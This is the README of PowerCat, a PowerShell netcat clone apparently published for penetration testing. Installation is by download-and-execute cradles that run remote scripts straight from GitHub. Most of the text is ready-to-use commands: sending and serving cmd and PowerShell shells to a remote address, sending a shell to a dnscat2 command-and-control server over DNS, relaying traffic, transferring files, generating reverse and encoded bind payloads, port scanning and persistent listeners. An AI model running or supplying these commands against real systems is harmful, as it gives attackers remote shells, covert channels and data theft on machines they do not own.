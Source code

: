 PowerCat
========
A PowerShell version of netcat. (Powershell Version 2 and Later Supported)

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
    Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')

### Parameters:
    
    Invoke-PowerCat
    
    -Listener       Listen for a connection.                            [Switch]
    -Client         IPv4 address of a listener to connect to.           [String]
    -Port           The port to connect to, or listen on.               [Int]
    -Execute        Execute a process.                                  [String]
    -PowerShell     Execute Powershell.                                 [Switch]
    -Relay          Format: "-r tcp:10.1.1.1:443"                       [String]
    -Udp            Transfer data over UDP.                             [Switch]
    -Timeout        Timeout option. Default: 60                         [Int]
    -Input          Filepath (string), byte array, or string.           [Object]
    -OutputType     Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     Output File Path.                                   [String]
    -Disconnect     Disconnect after connecting.                        [Switch]
    -Repeat         Restart after disconnecting.                        [Switch]
    -Payload        Generate payload.                                   [Switch]
    -Encoded        Generate Base64 encoded payload.                    [Switch]
    
    Invoke-DnsCat
    
    -Server         Name of DnsCat2 server to connect to.               [String]
    -Client         IPv4 address of DNS server to use.                  [String]
    -Port           Port accepting DNS queries on server.               [Int]
    -Threshold      DNS Failure Threshold.                              [Int]

Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        Invoke-PowerCat -Listener -Port 443
    Basic Client:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443
    Basic Client, Output as Bytes:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Output Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
    Recieve File:
        Invoke-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        Invoke-PowerCat -Listener -Port 443 -Execute cmd
    Send a cmd Shell:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
    Serve a shell which executes powershell commands:
        Invoke-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify the -Udp paratmeter to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        Invoke-PowerCat -Listener -Port 8000 -Udp
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
    TCP Client to Client Relay
        Invoke-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
    TCP Listener to Listener Relay
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        Invoke-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
    Generate a bind tcp encoded command which listens on port 8000:
        Invoke-PowerCat -Listener -Port 8000 -Execute cmd -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    Persistent listener:
        Invoke-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat

